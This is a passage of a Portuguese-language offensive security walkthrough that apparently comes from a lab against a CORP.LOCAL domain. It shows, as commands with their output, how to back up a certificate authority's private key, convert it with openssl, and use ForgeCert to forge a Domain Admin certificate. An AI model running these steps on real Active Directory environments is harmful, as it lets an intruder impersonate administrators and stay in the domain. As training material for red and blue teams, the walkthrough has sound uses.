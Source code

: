 ```powershell
Backup-CARoleService C:\Tools\CA-Backup -Password (ConvertTo-SecureString "Senha" -AsPlainText -Force)

dir .\CA-Backup\

Directory: C:\Tools\CA-Backup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        11/01/2025     02:22                DataBase
-a----        11/01/2025     02:22           2597 CORP-CA.p12
```

Agora vamos levar esse arquivo **.p12** para a maquina atacante, lembrando que ferramentas como Certipy extraem o certificado da CA de forma remota, porém requer privileigos de administrador de dominio.

```powershell
C:\Tools\openssl\openssl.exe pkcs12 -in C:\Tools\CORP-CA.p12 -out C:\Tools\CORP-CA.pem

dir | findstr "CORP-CA"

-a----         1/11/2025   2:22 AM           2597 CORP-CA.p12
-a----         1/11/2025   2:26 AM           3387 CORP-CA.pem

C:\Tools\openssl\openssl.exe pkcs12 -in C:\Tools\CORP-CA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "C:\Tools\CORP-CA.pfx"

dir | findstr "CORP-CA"

-a----         1/11/2025   2:22 AM           2597 CORP-CA.p12
-a----         1/11/2025   2:26 AM           3387 CORP-CA.pem
-a----         1/11/2025   2:30 AM           2587 CORP-CA.pfx
```

Guarde esse .pfx com TODA A SUA ALMA!!!!!!. Agora vamos utilizar o ForgeCert para emitir um certificado em nome do Domain Admin

```powershell
 .\ForgeCert.exe --CaCertPath ".\CORP-CA.p12" --CaCertPassword "Senha" --Subject "CN=paulo.victor,OU=Usuarios,OU=Inferi,DC=CORP,DC=LOCAL" --SubjectAltName paulo.victor@corp.local --NewCertPath ".\paulo-da.pfx" --NewCertPassword "Senha"

CA Certificate Information:
  Subject:        CN=CORP-CA, DC=CORP, DC=LOCAL
  Issuer:         CN=CORP-CA, DC=CORP, DC=LOCAL
  Start Date:     1/4/2025 12:56:14 AM
  End Date:       1/4/2030 1:06:13 AM
  Thumbprint:     0C6145AAC4A1BDF07BA3F7D01461797BF511F12C
  Serial:         1125934CE5144B9A4DEFB96CAAA4A9F2

Forged Certificate Information:
  Subject:        DC=LOCAL, DC=CORP, OU=Inferi, OU=Usuarios, CN=paulo.victor
  SubjectAltName: paulo.victor@corp.local
  Issuer:         CN=CORP-CA, DC=CORP, DC=LOCAL
  Start Date:     1/11/2025 2:34:50 AM
  End Date:       1/11/2026 2:34:50 AM
  Thumbprint:     ED557F9E9F3811F07B62EF0517CE494D83E9AD4B
  Serial:         00E32CD49040A22DBBA2BA81A1A6C87F4E

Done. Saved forged certificate to .\paulo-da.pfx with the password 'Senha'
```

